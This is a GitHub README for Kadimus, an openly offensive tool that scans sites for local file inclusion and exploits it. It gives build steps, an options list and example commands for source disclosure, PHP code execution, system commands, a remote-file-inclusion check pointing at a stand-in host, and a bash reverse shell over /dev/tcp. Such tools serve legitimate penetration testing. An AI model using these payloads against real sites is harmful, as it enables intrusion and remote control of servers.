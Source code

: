 # Kadimus
LFI Scan &amp; Exploit Tool
--
Kadimus is a tool to check sites to lfi vulnerability , and also exploit it

Features:

- [x] Check all url parameters
- [x] /var/log/auth.log RCE
- [x] /proc/self/environ RCE
- [x] php://input RCE
- [x] data://text RCE
- [x] Source code disclosure
- [x] Multi thread scanner
- [x] Command shell interface through HTTP Request
- [x] Proxy support (socks4://, socks4a://, socks5:// ,socks5h:// and http://)
- [x] Proxy socks5 support for bind connections

## Compile:

```sh
$ git clone https://github.com/P0cL4bs/Kadimus.git
$ cd Kadimus
```

You can run the configure file:

```sh
./configure
```

Or follow this steps:

### Installing libcurl:
* CentOS/Fedora

```sh
# yum install libcurl-devel
```

* Debian based
```sh
# apt-get install libcurl4-openssl-dev
```

### Installing libpcre:
* CentOS/Fedora

```sh
# yum install pcre-devel
```

* Debian based
```sh
# apt-get install libpcre3-dev
```

### Installing libssh:

* CentOS/Fedora

```sh
# yum install libssh-devel
```

* Debian based
```sh
# apt-get install libssh-dev
```
### And finally:
```sh
$ make
```
## Options:
```
  -h, --help                    Display this help menu

  Request:
    -B, --cookie STRING         Set custom HTTP Cookie header
    -A, --user-agent STRING     User-Agent to send to server
    --connect-timeout SECONDS   Maximum time allowed for connection
    --retry-times NUMBER        number of times to retry if connection fails
    --proxy STRING              Proxy to connect, syntax: protocol://hostname:port

  Scanner:
    -u, --url STRING            Single URI to scan
    -U, --url-list FILE         File contains URIs to scan
    -o, --output FILE           File to save output results
    --threads NUMBER            Number of threads (2..1000)

  Explotation:
    -t, --target STRING         Vulnerable Target to exploit
    --injec-at STRING           Parameter name to inject exploit
                                (only need with RCE data and source disclosure)

  RCE:
    -X, --rce-technique=TECH    LFI to RCE technique to use
    -C, --code STRING           Custom PHP code to execute, with php brackets
    -c, --cmd STRING            Execute system command on vulnerable target system
    -s, --shell                 Simple command shell interface through HTTP Request

    -r, --reverse-shell         Try spawn a reverse shell connection.
    -l, --listen NUMBER         port to listen

    -b, --bind-shell            Try connect to a bind-shell
    -i, --connect-to STRING     Ip/Hostname to connect
    -p, --port NUMBER           Port number to connect
    --b-proxy STRING            IP/Hostname of socks5 proxy
    --b-port NUMBER             Port number of socks5 proxy

    --ssh-port NUMBER           Set the SSH Port to try inject command (Default: 22)
    --ssh-target STRING         Set the SSH Host

    RCE Available techniques

      environ                   Try run PHP Code using /proc/self/environ
      input                     Try run PHP Code using php://input
      auth                      Try run PHP Code using /var/log/auth.log
      data                      Try run PHP Code using data://text

    Source Disclosure:
      -G, --get-source          Try get the source files using filter://
      -f, --filename STRING     Set filename to grab source [REQUIRED]
      -O FILE                   Set output file (Default: stdout)
```

## Examples:

### Scanning:
```
./kadimus -u localhost/?pg=contact -A my_user_agent
./kadimus -U url_list.txt --threads 10 --connect-timeout 10 --retry-times 0
```
### Get source code of file:
```
./kadimus -t localhost/?pg=contact -G -f "index.php%00" -O local_output.php --inject-at pg
```
### Execute php code:
```
./kadimus -t localhost/?pg=php://input%00 -C '<?php echo "pwned"; ?>' -X input
```

### Execute command:
```
./kadimus -t localhost/?pg=/var/log/auth.log -X auth -c 'ls -lah' --ssh-target localhost
```
### Checking for RFI:

You can also check for RFI errors, just put the remote url on resource/common_files.txt
and the regex to identify this, example:


```php
/* http://bad-url.com/shell.txt */
<?php echo base64_decode("c2NvcnBpb24gc2F5IGdldCBvdmVyIGhlcmU="); ?>
```

in file:
```
http://bad-url.com/shell.txt?:scorpion say get over here
```

### Reverse shell:
```
./kadimus -t localhost/?pg=contact.php -Xdata --inject-at pg -r -l 12345 -c 'bash -i >& /dev/tcp/127.0.0.1/12345 0>&1' --retry-times 0
```
